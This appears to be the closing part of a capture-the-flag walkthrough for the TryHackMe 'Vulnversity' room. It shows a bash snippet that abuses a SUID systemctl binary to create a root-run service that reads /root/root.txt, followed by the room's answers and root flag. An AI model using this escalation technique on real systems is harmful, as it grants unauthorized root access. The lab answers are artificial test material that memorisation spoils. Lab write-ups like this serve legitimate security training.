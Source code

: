 This code snipped runs the shell with root previlege and stores the id to /tmp/output directory. Let's chech it on our target machine.
![privilege escalation](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/thm/vulnversity/priv_esc.png)

Here we can see that we escalated teh privilege by abusing SUID and ran `id` command.

So now our next move is to replace `id` command with `cat /root/root.txt` so that it would output the root flag in /tmp/output file. Our new modified code will be:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
![root flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/thm/vulnversity/root_flag.png)

And Voilà, we got the root flag.

**Q1. On the system, search for all SUID files. Which file stands out?**

**Ans: `/bin/systemctl`**

**Q2. What is the root flag value?**

**Ans: `a58ff8579f0a9270368d33a9966c7fd5`**

Thankyou for reading this walkthrough. Hope you learnt something new form here. Until we meet again `:)`.
